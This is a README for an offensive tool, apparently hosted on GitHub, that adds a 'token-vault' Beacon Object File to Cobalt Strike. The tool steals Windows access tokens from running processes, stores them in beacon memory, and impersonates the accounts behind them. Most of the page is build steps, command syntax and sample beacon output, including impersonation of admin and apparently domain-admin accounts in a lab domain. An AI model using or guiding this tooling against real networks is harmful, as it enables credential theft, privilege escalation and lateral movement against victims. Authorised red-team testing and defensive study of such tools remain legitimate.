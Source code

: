 # Token Vault BOF for Cobalt Strike

This Beacon Object File (BOF) creates in-memory storage for stolen/duplicated Windows access tokens, which allows you to:

- Hot swap/re-use already stolen tokens without re-duplicating.
- Store tokens for later use in case of a person log out.

## Installation

1. Clone the repository.
2. Build the BOF: `make all`.
3. Load the `token-vault.cna` aggressor script to your Cobalt Strike client.

## Usage

```
beacon> help token-vault
Available Commands:
	Create a new token vault:    token-vault create
	Steal and store tokens:      token-vault steal <comma separated list of PIDs> [vault-id]
	Use the stored token:        token-vault use <token-id> [vault-id]
	Show the stored tokens:      token-vault show [vault-id]
	Remove the stored token:     token-vault remove <token-id> [vault-id]
	Remove all tokens:           token-vault remove-all [vault-id]
	Set the default token vault: token-vault set <vault-id>
```

### Vault Creation

The `token-vault create` command allocates an empty vault from the beacon's heap. The received output contains the memory address of the vault (a.k.a. vault id), which is used to specify the vault for the other `token-vault` commands.

```
beacon> token-vault create
[*] Token Vault - create (@henkru)
[+] host called home, sent: 2991 bytes
[+] received output:
token vault created: 0000000000C31610
```

Additionally, a specific vault id can be set as a default vault which is used if a `token-vault` command does not include the vault id.

```
beacon> token-vault set 0000000000C31610
```

It is important to note that configured default vaults live inside the Cobalt Strike client and are not shared between clients.

### Steal token

The `token-vault steal` command duplicates the given processes' tokens and stores them in the vault.

```
beacon> token-vault steal 6600,2608,5248
[*] Token Vault - steal (@henkru)
[+] host called home, sent: 3009 bytes
[+] received output:
6600: WINLAB\limited
[+] received output:
2608: WINLAB\limited2
[+] received output:
5248: WINLAB\admin
```

### Show stored tokens

```
beacon> token-vault show
[*] Token Vault - show (@henkru)
[+] host called home, sent: 2999 bytes
[+] received output:
5248: WINLAB\admin
2608: WINLAB\limited2
6600: WINLAB\limited
```

### Use token

The `token-vault use` command impersonates a token from the vault. If the token does not exist, it will be stolen and stored in the vault.

```
beacon> token-vault use 2608
[*] Token Vault - use (@henkru)
[+] host called home, sent: 3001 bytes
[+] Impersonated WINLAB\limited
```

```
beacon> token-vault use 6384
[*] Token Vault - use (@henkru)
[+] host called home, sent: 3001 bytes
[-] token of 6384 not in the vault; try to get it.
[+] received output:
6384: WINLAB\da
[+] Impersonated WINLAB\da
```

### Remove token

The `token-vault remove` command removes a stored token from the vault.

```
beacon> token-vault remove 6600
[*] Token Vault - remove (@henkru)
[+] host called home, sent: 3001 bytes
[+] received output:
removed: 6600
```

Additionally, the `token-vault remove-all` command removes all tokens at once.
